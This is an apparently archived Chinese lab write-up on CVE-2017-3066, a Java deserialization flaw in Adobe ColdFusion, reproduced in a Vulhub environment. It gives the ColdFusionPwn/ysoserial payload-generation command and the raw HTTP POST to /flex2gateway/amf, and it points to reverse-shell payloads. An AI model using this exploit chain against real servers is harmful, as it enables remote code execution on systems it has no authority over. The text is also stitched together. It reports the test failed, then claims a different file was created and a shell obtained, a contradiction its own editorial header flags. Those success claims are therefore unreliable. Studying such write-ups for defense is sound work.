



# Adobe ColdFusion 反序列化漏洞 CVE-2017-3066

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Adobe ColdFusion /flex2gateway/amf
- 文献类型：ColdFusion AMF反序列化复现拼编
- 版本、权限及部署边界：CF2016U3及之前/CF11U11及之前/CF10U22及之前；Vulhub环境版本路径未给；初始化admin密码是搭建步骤非攻击认证
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 桌面分类错误应Web中间件ColdFusion；实际为服务端Java反序列化
2. 前段明确/tmp/awesome_poc未创建，后段未经解释称/tmp/success已创建/拿shell，文件名与结果矛盾，可能拼接他人成功段，需标各实验来源
3. 仅归因Burp新旧版本无版本号/字节对照，可能二进制body编码/Content-Length等原因，不能确认版本导致
4. Vulhub没有目录/镜像digest、依赖JAR未固定hash，命令classpath是Unix分隔符需说明执行端；硬编码Content-Length2853不能任意套载荷
5. CodeWhite原研究/工具溯源良好，缺Adobe修复公告/版本；图未视检，不能将失败记录抹成已成功

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html>
- 原文参考链接（未重新核验）：<https://www.exploit-db.com/exploits/43993>
- 原文参考链接（未重新核验）：<https://github.com/codewhitesec/ColdFusionPwn>
- 原文参考链接（未重新核验）：<http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe>
- 原文参考链接（未重新核验）：<http://your-ip:8500/flex2gateway/amf`，Content-Type为application/x-amf>
- 原文参考链接（未重新核验）：<https://mp.weixin.qq.com/s/-6U2dOJs930kMYv7z-NUgg**>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion中存在java反序列化漏洞。攻击者可利用该漏洞在受影响应用程序的上下文中执行任意代码或造成拒绝服务。以下版本受到影响：Adobe ColdFusion (2016 release) Update 3及之前的版本，ColdFusion 11 Update 11及之前的版本，ColdFusion 10 Update 22及之前的版本。

参考链接：

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html
- https://www.exploit-db.com/exploits/43993
- https://github.com/codewhitesec/ColdFusionPwn

## 环境搭建

Vulhub启动漏洞环境：

```
docker-compose up -d
```

访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。

## 漏洞复现

使用参考链接中的[ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn)工具来生成POC：

```
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/awesome_poc' poc.ser
```

POC生成于poc.ser文件中，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为application/x-amf。

将POC作为数据包body：Burpsuite右键→Paste From File→选择poc.ser

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```

**至此，复现不成功，上传poc.ser之后POST，/tmp/awesome_poc文件没有创建完成**

**补充：与burpsuite版本有关，老版本的burpsuite可以复现成功**。

**Burpsuite+Postman联动复现也不成功。操作步骤可参考：https://mp.weixin.qq.com/s/-6U2dOJs930kMYv7z-NUgg**

------



进入容器中，发现`/tmp/success`已成功创建：



将POC改成[反弹命令](https://www.bugku.net/runtime-exec-payloads/)，成功拿到shell：




---

> 来源：Threekiii/Awesome-POC
